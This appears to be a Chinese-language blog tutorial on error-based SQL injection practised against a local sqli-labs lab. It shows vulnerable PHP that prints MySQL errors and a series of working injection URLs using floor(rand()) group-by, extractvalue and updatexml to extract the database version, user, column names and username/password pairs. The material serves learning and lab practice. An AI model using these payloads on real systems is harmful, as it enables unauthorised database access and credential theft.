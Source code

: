 ```yaml
---
layout: post
title: 1.2.2-SQL注入-SQL注入语法类型-报错注入
category: 
  - web安全
tags: 
  - sql注入
abbrlink: 4239639054
date: 2018-06-16 00:00:00
description: more
---
```


## 报错注入

### 01 报错注入原理

构造payload让信息通过错误提示回显出来  
应用场景：  
查询不回显内容，会打印错误信息  
Update、insert等语句，会打印错误信息  

	if($row)
	{
		echo 'Your Login name:'.$row['username'];
	}
	else
	{
		print_r(mysql_error());
	}

### 02 报错注入方法

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/01.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/02.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/03.png)

	select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2));

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2)))--+

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select user()),0x7e,floor(rand(0)*2)))--+

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select database() limit 0,1),0x7e,floor(rand(0)*2)))--+ // 表名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 3,1),0x7e,floor(rand(0)*2)))--+ // 列名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 3,1),0x7e,floor(rand(0)*2)))--+ // 列名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select concat(username,0x7e,password) from users limit 0,1),0x7e,floor(rand(0)*2)))--+ // 数据

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/04.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/05.png)

	// 特殊符号导致方法报错，报错可以输出错误信息
	select ectractvalue(1,concat(0x7e,(select user()),0x7e));
	select updatexml(1,concat(0x7e,(select user()),0x7e),1);  

	报错注入只有32位长 用 substr截取字符串substr('ab',1,2) // 从第一位截取两个
	http://127.0.0.1:90/Less-1/?id=1' and updatexml(1,concat(0x7e,(select substr(concat(password),1,2) from users limit 0,1),0x7e),1) --+









